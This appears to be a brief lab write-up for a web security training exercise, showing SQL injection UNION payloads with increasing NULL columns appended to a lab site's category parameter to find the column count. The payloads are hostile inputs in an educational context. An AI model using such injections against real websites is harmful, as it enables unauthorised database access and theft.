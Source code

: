 # Lab: SQL injection UNION attack, determining the number of columns returned by the query
## Description

Exercise is simple to identify the number of columns used by the query.



## Solution
By appending the SQL injections below its possible to identified the number of columns used in the SQL query triggered by this URL: `https://ac701fc41fea9e6cc046118300c4008e.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories` 


```
'+UNION+SELECT+NULL--
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL--
```

The final injection returned the webpage as normal:

`https://ac701fc41fea9e6cc046118300c4008e.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+NULL,NULL,NULL--`